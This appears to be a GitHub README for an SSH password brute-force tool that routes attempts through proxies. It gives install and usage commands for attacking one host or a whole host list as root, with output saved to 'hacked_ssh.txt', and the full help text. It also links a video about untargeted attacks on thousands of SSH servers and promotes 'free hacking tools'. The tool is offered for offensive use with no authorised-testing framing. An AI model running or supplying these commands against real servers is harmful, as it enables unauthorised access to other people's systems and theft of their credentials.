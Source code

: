 # Fla-SSH-Bang
Lightspeed fast SSH bruteforce tool.

This tool is best combined with [Turbo](https://github.com/lilmond/Turbo)

Watch flasshbang2 at play here: [Hacking Thousands of SSH Servers Worldwide | Untargeted Reverse Brute-Force Attack](https://www.youtube.com/watch?v=ABVO17C8G64)

Discord: https://discord.com/invite/Bnf3e8pkyj

![image](https://github.com/user-attachments/assets/a62ef38e-06c8-4b41-8a0e-dcfd0739e2a5)

https://github.com/user-attachments/assets/e14f2745-7e81-4263-b7ee-30626cf1ef2e

# Where to get proxies?
You may use my proxy list scraper here (Proxal): https://github.com/lilmond/Proxal

# Installation
For Linux platforms. Execute the commands below. You may copy and paste and execute them all at once.
```
git clone https://github.com/lilmond/flasshbang
cd flasshbang
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```

# Usage

## Examples
Single host target
```
python3 flasshbang.py <target ip> -u root -P samples/pass_list.txt -pp samples/good_proxies.txt 
```

Multi-hosts
```
python3 flasshbang.py -M <host list file> -u root -P samples/pass_list.txt -pp samples/good_proxies.txt -o hacked_ssh.txt 
```

# Help
```

               █████▒██▓    ▄▄▄        ██████   ██████  ██░ ██  ▄▄▄▄    ▄▄▄       ███▄    █   ▄████  ▐██▌
             ▓██   ▒▓██▒   ▒████▄    ▒██    ▒ ▒██    ▒ ▓██░ ██▒▓█████▄ ▒████▄     ██ ▀█   █  ██▒ ▀█▒ ▐██▌
             ▒████ ░▒██░   ▒██  ▀█▄  ░ ▓██▄   ░ ▓██▄   ▒██▀▀██░▒██▒ ▄██▒██  ▀█▄  ▓██  ▀█ ██▒▒██░▄▄▄░ ▐██▌
             ░▓█▒  ░▒██░   ░██▄▄▄▄██   ▒   ██▒  ▒   ██▒░▓█ ░██ ▒██░█▀  ░██▄▄▄▄██ ▓██▒  ▐▌██▒░▓█  ██▓ ▓██▒
             ░▒█░   ░██████▒▓█   ▓██▒▒██████▒▒▒██████▒▒░▓█▒░██▓░▓█  ▀█▓ ▓█   ▓██▒▒██░   ▓██░░▒▓███▀▒ ▒▄▄
              ▒ ░   ░ ▒░▓  ░▒▒   ▓▒█░▒ ▒▓▒ ▒ ░▒ ▒▓▒ ▒ ░ ▒ ░░▒░▒░▒▓███▀▒ ▒▒   ▓▒█░░ ▒░   ▒ ▒  ░▒   ▒  ░▀▀▒
              ░     ░ ░ ▒  ░ ▒   ▒▒ ░░ ░▒  ░ ░░ ░▒  ░ ░ ▒ ░▒░ ░▒░▒   ░   ▒   ▒▒ ░░ ░░   ░ ▒░  ░   ░  ░  ░
              ░ ░     ░ ░    ░   ▒   ░  ░  ░  ░  ░  ░   ░  ░░ ░ ░    ░   ░   ▒      ░   ░ ░ ░ ░   ░     ░
                        ░  ░     ░  ░      ░        ░   ░  ░  ░ ░            ░  ░         ░       ░  ░
                                                                     ░
                        Visit  https://github.com/lilmond for more free hacking tools! :3

usage: flasshbang.py [-h] [-p PORT] [-u USERNAME] -P PASSLIST -pp PROXY_LIST [-t THREADS] [-T THREADS_MULTI]
                     [-M HOST_LIST] [-o OUTPUT]
                     [hostname]

Fla-SSH-Bang! Inspired by vanhauser's hydra (also shoutout to him for creating that wonderful tool!). Super fast SSH
bruteforce tool powered by proxies that who knows where they came from. Written in Python! Number 1 language in the
world!

positional arguments:
  hostname              Target IP address.

options:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  Target port. Default is set to 22.
  -u USERNAME, --username USERNAME
                        SSH user to attack. The default is set to root.
  -P PASSLIST, --passlist PASSLIST
                        Your favorite password list from SecLists!
  -pp PROXY_LIST, --proxy-list PROXY_LIST
                        Not the size of your penis, but the longer your proxy list is, the better!
  -t THREADS, --threads THREADS
                        Threads, idk how to explain what threads are. But the default is set to 10! The more threads,
                        the faster!
  -T THREADS_MULTI, --threads-multi THREADS_MULTI
                        Threads for multi hosts. The default is 3
  -M HOST_LIST, --host-list HOST_LIST
                        File list of hosts to attack.
  -o OUTPUT, --output OUTPUT
                        Success logins output file.
```
